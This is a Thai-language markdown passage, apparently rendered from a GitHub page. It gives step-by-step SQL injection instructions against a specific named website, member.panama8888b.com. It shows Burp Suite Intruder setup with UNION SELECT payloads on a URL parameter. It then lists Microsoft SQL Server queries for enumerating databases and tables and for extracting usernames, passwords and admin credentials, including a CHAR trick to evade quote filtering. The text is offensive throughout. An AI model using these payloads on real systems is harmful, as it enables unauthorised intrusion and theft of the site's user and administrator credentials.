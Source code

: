 ## วิธีการ 4: การใช้ Burp Suite

### ขั้นตอนการใช้ Burp Suite

1. **Setup Burp Suite:**
   - เปิด Burp Suite Professional
   - Configure browser proxy (127.0.0.1:8080)

2. **Capture Request:**
   - เข้าไปที่ `https://member.panama8888b.com/public/js/v2/app.js?v=25.1`
   - Capture request ใน Burp

3. **Send to Intruder:**
   - Right-click → Send to Intruder
   - Set payload position ที่ parameter `v`

4. **Configure Payloads:**
   ```
   25.1)) UNION SELECT @@version --
   25.1)) UNION SELECT DB_NAME() --
   25.1)) UNION SELECT name FROM sysobjects WHERE xtype='U' --
   ```

5. **Start Attack และวิเคราะห์ผลลัพธ์**

## คำสั่งที่สำคัญสำหรับ Microsoft SQL Server

### Information Gathering
```sql
-- Database version
SELECT @@version

-- Current database
SELECT DB_NAME()

-- Current user
SELECT USER_NAME()

-- Server name
SELECT @@servername

-- List databases
SELECT name FROM master..sysdatabases

-- List tables
SELECT name FROM sysobjects WHERE xtype='U'

-- List columns
SELECT column_name FROM information_schema.columns WHERE table_name='users'
```

### Data Extraction
```sql
-- Extract user data
SELECT username, password FROM users

-- Extract admin data  
SELECT admin_name, admin_password FROM admins

-- Extract with concatenation
SELECT username+':'+password FROM users

-- Extract with CHAR to avoid quotes
SELECT username+CHAR(58)+password FROM users
```